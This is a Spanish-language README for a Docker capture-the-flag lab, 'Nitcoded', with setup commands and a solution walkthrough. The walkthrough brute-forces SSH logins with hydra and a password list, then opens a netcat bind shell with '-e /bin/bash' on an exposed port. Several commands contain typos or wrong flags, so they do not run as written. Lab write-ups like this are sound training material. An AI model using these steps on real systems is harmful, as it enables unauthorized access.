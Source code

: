 # Nitcoded

- [1. Descripción](#1-descripción)
- [2. Instalación y despliegue](#2-instalación-y-despliegue)
- [2.1. Despliegue manual](#21-despliegue-manual)
- [2.2. Despliegue atomático](#22-despliegue-atomático)
- [3. Descripción del laboratorio](#3-descripción-del-laboratorio)
- [4. Resolución del laboratorio](#4-resolución-del-laboratorio)
- [4.1. Cracking de credenciales](#41-cracking-de-credenciales)
- [4.2. Sesión interactiva](#42-sesión-interactiva)
- [4.3. Configuración del servidor HTTP](#43-configuración-del-servidor-http)
- [4.4. Recepción de archivos](#44-recepción-de-archivos)
- [4.5. Obtención de la flag](#45-obtención-de-la-flag)

## 1. Descripción

Este laboratorio es una simulación de un entorno cliente-servidor, en el cual se profundizará en la configuración de servidores HTTP y automatización de tareas. Utiliza Docker para simular dos servidores, cada uno con configuraciones específicas destinadas a desafiar al usuario a utilizar una variedad de herramientas y técnicas de administración.

## 2. Instalación y despliegue

Antes de iniciar el laboratorio, asegúrate de tener Docker instalado en tu sistema. Si no tienes Docker, puedes instalar siguiendo las instrucciones en el sitio oficial de Docker para [Windows](https://docs.docker.com/docker-for-windows/install/), [Mac](https://docs.docker.com/docker-for-mac/install/) o [Linux](https://docs.docker.com/engine/install/).
Para el despliegue, tanto manual como automático, será neceasrio crear una red en Docker de tipo _bridge_:

```bash
docker network create nitcoded
```

## 2.1. Despliegue manual

Para desplegar manualmente el laboratorio, deberás clonar este repositorio y ejecutar los siguientes comandos Docker para su lanzamiento:

```bash
git clone https://github.com/oppaisdf/elementals-labs.git
docker build -f kradbyte/nitcoded:server -f Dockerfile.server elementals-labs/7-Nitcoded 
docker build -f kradbyte/nitcoded:client -f Dockerfile.client elementals-labs/7-Nitcoded
docker run -d --name nitcoded-server --network nitcoded -p [ServerPort]:22 -p [ServerPort]:4646 kradbyte/nitcoded:server
docker run -d --name nitcoded-client --network nitcoded kradbyte/nitcoded:client
```

No olvides cambiar los `ServerPort` por los puertos que se expondrán para los servicios SSH y el puerto libre para otro servicio detallado más adelante.

## 2.2. Despliegue automático

Para desplegar el laboratorio atomáticamente bastará con ejecutar los siguientes comandos:

```bash
docker run -d --name nitcoded-server --network nitcoded -p [ServerPort]:22 -p [ServerPort]:4646 kradbyte/nitcoded:server
docker run -d --name nitcoded-client --network nitcoded kradbyte/nitcoded:client
```

No olvides cambiar los `ServerPort` por los puertos que se expondrán para los servicios SSH y el puerto libre para otro servicio detallado más adelante.

> **Nota**: No se recomienda cambiar el nombre de los contenedores, ya que hay configuraciones internas que funcionan con la resolución de los DNS de los contenedores, por lo que solo es posible cambiar el nombre de los contenedores si cambiamos las configuraciones también.

## 3. Descripción del laboratorio

**Description**
Pato va a enviar cerca de 100 archivos al servidor por HTTP, así que debes ingresar al servidor con el rol administrador y preparar todo para que Pato pueda enviar sus archivos.

**Target**
Configura un servidor HTTP.

**Steps**
- Ingresa al servidor
- Configura el servidor HTTP.
- Espera y gestiona los archivos recibidos.
- Descifra la flag en los archivos recibidos.

**Grants**
- La flag se encuentra segmentada en todos los archivos que envía Pato, deberás buscar la diferencia entre todos para encontrar la flag.
- Para el servidor HTTP no es necesario colocarle contraseña, dado que Pato hace un curl sin contraseña, que si bien no es seguro es más práctico por ser una red interna.
- El puerto 4646 está expuesto para cualquier uso.

## 4. Resolución del laboratorio

### 4.1. Cracking de credenciales

Primero deberemos crackear las credenciales de la SSH para acceder al servidor. La descripción nos proporciona información acerca de que nuestro rol es de administrador, por lo que podremos ingresar como _admin_, por lo que ahora deberemos buscar la contraseña con herramientas como _hydra_. Como diccionario podremos utilizar algún diccionario de [SecList](https://github.com/danielmiessler/SecLists/blob/master/Passwords/500-worst-passwords.txt).

```bash
hydra -L admmin -p /ruta/a/tu/diccionario.txt ssh://ServerIP:ServerPort
```

No olvides cambiar `ServerIP` y `ServerPort` por la IP del servidor y el puerto por el que corre la SSH (en caso de haber configurado SSH en un puerto distinto al 22).

### 4.2. Sesión interactiva

Cuando hayamos descubierto la contraseña e intentemos hacer la conexión al servidor por SSH, la sesión se cerrará y nos impedirá obtener la consola interactiva, sin embargo, podremos ejecutar comandos por SSH. Para poder obtener la consola interactiva podremos configurar una _bind shell_ instalando Netcat primero:

```bash
ssh admin@ServerIP sudo apt-get install -y netcat-traditional
```

No olvides reemplazar `ServerIP` por la IP del servidor.
Una vez hayamos instalado NetCat podremos ponernos en escucha por el puerto 4646 que estaba libre en el despliegue del contenedor:

```bash
ssh admin@ServerIP nc -lnvp 4646 -e /bin/bash
```

En nuestra máquina deberemos abrir otra terminal y conectarnos por Netcat:

```bash
nc ServerIP 4646
```

Otra forma en que podremos ganar la consola interactiva será ejecutando lo siguiente:

```bash
ssh admin@SererIP exec bash -i
```

### 4.3. Configuración del servidor HTTP

Para configurar el servidor HTTP podrías, incluso, levantarlo con Python:

```bash
python3 -m http.server
```

Sin embargo, nuestro servidor debe tener capacidades POST/PUT, dado que el cliente enviará archivos al servidor, por lo que podremos buscar alguna alternativa como un script en Python que acepte POST/PUT. Recuerda que HTTP se monta en el puerto 80.

### 4.4. Recepción de archivos

Cuando hayamos configurado el servidor correctamente, el cliente comenzará a enviar los archivos en lotes de 10 cada 3 minutos, por lo que podremos buscar una forma de gestionar estas recepciones, dado que para recibir todos los archivos tardará cerca de 30 minutos.
Se sugiere implementar un script en bash que guarde los arhivos en alguna ubicación y vaya renombrando los archivos recibidos, junto con una tarea cron para que el proceso se realice automáticamente.

> **Nota**: Si el cliente tienen algún error al enviar los archivos se reiniciará el índice de envío de archivos; es decir, si se enviaron los archivos 20-30 y paramos el servidor, el cliente intentará enviar todos los archivos nuevamente desde el primero. Podremos ver los logs de los envíos con el siguiente comando:

```bash
docker exec nitcoded-client cat /root/sender.log
```

### 4.5. Obtención de la flag

Una vez hayamos obtenido todos los archivos (90 en total) deberemos realizar la lectura de cada uno, ya que al descrifrarlos encontraremos un caracter diferente en cada archivo que deberás compilar para obtener una frase encriptada en base64 que contendrá la flag. Esto también se puede automatizar con un script.
